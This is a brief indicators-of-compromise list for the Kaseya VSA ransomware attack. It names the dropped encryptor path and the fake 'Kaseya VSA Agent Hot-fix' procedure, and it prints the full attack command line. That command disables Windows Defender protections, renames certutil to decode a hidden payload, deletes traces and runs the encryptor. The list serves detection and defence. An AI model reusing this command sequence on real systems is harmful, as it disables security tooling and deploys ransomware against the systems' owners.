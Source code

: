 Here's validated indicators of compromise:

- Ransomware Encryptor is dropped to c:\kworking\agent.exe

- The VSA procedure is named "Kaseya VSA Agent Hot-fix”

- At least two tasks run the following: "C:\WINDOWS\system32\cmd.exe" /c ping 127.0.0.1 -n 4979 > nul & C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend & copy /Y C:\Windows\System32\certutil.exe C:\Windows\cert.exe & echo %RANDOM% >> C:\Windows\cert.exe & C:\Windows\cert.exe -decode c:\kworking\agent.crt c:\kworking\agent.exe & del /q /f c:\kworking\agent.crt C:\Windows\cert.exe & c:\kworking\agent.exe